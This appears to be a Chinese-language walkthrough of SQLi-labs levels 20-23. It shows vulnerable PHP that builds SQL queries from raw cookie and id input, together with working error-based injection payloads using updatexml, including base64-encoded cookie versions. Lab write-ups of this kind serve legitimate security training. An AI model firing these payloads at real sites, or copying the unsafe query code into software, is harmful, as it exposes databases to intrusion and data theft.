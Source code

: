 这次把uagent换成了referer, paylod同上

### 20-Cookie Injection- Error Based- string

```php
setcookie('uname', $cookee, time()+3600);	
header ('Location: index.php');
```

有这么一句话，将uname设为cookie，然后重定向至首页，

<img src="https://gitee.com/TyRantXx/imgs/raw/master/imgs/image-20220327164820673.png" alt="image-20220327164820673" style="zoom:50%;" />

这个页面中，有

```php
$sql="SELECT * FROM users WHERE username='$cookee' LIMIT 0,1";
$result=mysql_query($sql);
```

所以我们可以抓第二次重定向的包修改cookie来操作

`admin'and updatexml(1,concat(0x0a,database()),1)--+`即可 ， 其他略

# Advanced Injections

### 21-Cookie Injection- Error Based- complex - string

这里发现cookie被base64编码了，我们只需要将之前的payload也编码一下就行

`admin') and updatexml(1,concat(0x0a, database()),1)#`

 \>> `YWRtaW4nKSBhbmQgdXBkYXRleG1sKDEsY29uY2F0KDB4MGEsIGRhdGFiYXNlKCkpLDEpIw==`

### 22-Cookie Injection- Error Based- Double Quotes - string

`admin" and 1#`

这里是双引号闭合了

`admin" and updatexml(1,concat(0x0a, database()),1)#`

\>>`YWRtaW4iIGFuZCB1cGRhdGV4bWwoMSxjb25jYXQoMHgwYSwgZGF0YWJhc2UoKSksMSkj`



### 23-Error Based- no comments

```php
$reg = "/#/";
$reg1 = "/--/";
$replace = "";
$id = preg_replace($reg, $replace, $id);
$id = preg_replace($reg1, $replace, $id);

// connectivity 
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

if($row)
	...
```

